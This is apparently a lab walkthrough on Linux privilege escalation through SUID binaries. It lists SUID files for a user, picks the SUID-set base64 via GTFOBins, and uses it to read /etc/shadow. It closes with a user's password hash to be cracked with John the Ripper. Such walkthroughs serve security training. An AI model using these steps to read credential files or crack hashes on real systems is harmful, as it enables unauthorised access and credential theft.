


# Privilege escalation SUID

These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.\
\
You will notice these files have an “s” bit set showing their special permission level.\
\
`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.


A good practice would be to compare executables on this list with GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)).


EXAMPLE:

In the example scenario we have a machine with the following output of SUID permissions for user karen:

```
$ find / -type f -perm -04000 -ls 2>/dev/null
       66     40 -rwsr-xr-x   1 root     root        40152 Jan 27  2020 /snap/core/10185/bin/mount
       80     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /snap/core/10185/bin/ping
       81     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /snap/core/10185/bin/ping6
       98     40 -rwsr-xr-x   1 root     root        40128 Mar 25  2019 /snap/core/10185/bin/su
      116     27 -rwsr-xr-x   1 root     root        27608 Jan 27  2020 /snap/core/10185/bin/umount
     2610     71 -rwsr-xr-x   1 root     root        71824 Mar 25  2019 /snap/core/10185/usr/bin/chfn
     2612     40 -rwsr-xr-x   1 root     root        40432 Mar 25  2019 /snap/core/10185/usr/bin/chsh
     2689     74 -rwsr-xr-x   1 root     root        75304 Mar 25  2019 /snap/core/10185/usr/bin/gpasswd
     2781     39 -rwsr-xr-x   1 root     root        39904 Mar 25  2019 /snap/core/10185/usr/bin/newgrp
     2794     53 -rwsr-xr-x   1 root     root        54256 Mar 25  2019 /snap/core/10185/usr/bin/passwd
     2904    134 -rwsr-xr-x   1 root     root       136808 Jan 31  2020 /snap/core/10185/usr/bin/sudo
     3003     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core/10185/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     3375    419 -rwsr-xr-x   1 root     root              428240 May 26  2020 /snap/core/10185/usr/lib/openssh/ssh-keysign
     6437    109 -rwsr-xr-x   1 root     root              110792 Oct  8  2020 /snap/core/10185/usr/lib/snapd/snap-confine
     7615    386 -rwsr-xr--   1 root     dip               394984 Jul 23  2020 /snap/core/10185/usr/sbin/pppd
       56     43 -rwsr-xr-x   1 root     root               43088 Mar  5  2020 /snap/core18/1885/bin/mount
       65     63 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /snap/core18/1885/bin/ping
       81     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /snap/core18/1885/bin/su
       99     27 -rwsr-xr-x   1 root     root               26696 Mar  5  2020 /snap/core18/1885/bin/umount
     1698     75 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /snap/core18/1885/usr/bin/chfn
     1700     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /snap/core18/1885/usr/bin/chsh
     1752     75 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /snap/core18/1885/usr/bin/gpasswd
     1816     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /snap/core18/1885/usr/bin/newgrp
     1828     59 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /snap/core18/1885/usr/bin/passwd
     1919    146 -rwsr-xr-x   1 root     root              149080 Jan 31  2020 /snap/core18/1885/usr/bin/sudo
     2006     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2314    427 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /snap/core18/1885/usr/lib/openssh/ssh-keysign
     7477     52 -rwsr-xr--   1 root     messagebus         51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    13816    464 -rwsr-xr-x   1 root     root              473576 May 29  2020 /usr/lib/openssh/ssh-keysign
    13661     24 -rwsr-xr-x   1 root     root               22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     7479     16 -rwsr-xr-x   1 root     root               14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
    13676    128 -rwsr-xr-x   1 root     root              130152 Oct  8  2020 /usr/lib/snapd/snap-confine
     1856     84 -rwsr-xr-x   1 root     root               85064 May 28  2020 /usr/bin/chfn
     2300     32 -rwsr-xr-x   1 root     root               31032 Aug 16  2019 /usr/bin/pkexec
     1816    164 -rwsr-xr-x   1 root     root              166056 Jul 15  2020 /usr/bin/sudo
     1634     40 -rwsr-xr-x   1 root     root               39144 Jul 21  2020 /usr/bin/umount
     1860     68 -rwsr-xr-x   1 root     root               68208 May 28  2020 /usr/bin/passwd
     1859     88 -rwsr-xr-x   1 root     root               88464 May 28  2020 /usr/bin/gpasswd
     1507     44 -rwsr-xr-x   1 root     root               44784 May 28  2020 /usr/bin/newgrp
     1857     52 -rwsr-xr-x   1 root     root               53040 May 28  2020 /usr/bin/chsh
     1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
     1674     68 -rwsr-xr-x   1 root     root               67816 Jul 21  2020 /usr/bin/su
     2028     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
     2166     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
     1633     56 -rwsr-xr-x   1 root     root               55528 Jul 21  2020 /usr/bin/mount
```

Investigating a bit in [https://gtfobins.github.io/](https://gtfobins.github.io/) we found that base64 library could be use to obtain plain text for files we do not own so lets obtain the output of /etc/shadow file (We already have access to /etc/passwd.

<figure><figcaption></figcaption></figure>

the first command is just in case base64 library isn't installed. Now this machine is solved just doing the following:\


1.- LFILE = /etc/shadow

/usr/bin/base64 "$LFILE" | base64 --decode

2.- Now, we have been asked to obtain user2 password, lets use john the ripper with the user hash:

```
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
```

<figure><figcaption></figcaption></figure>
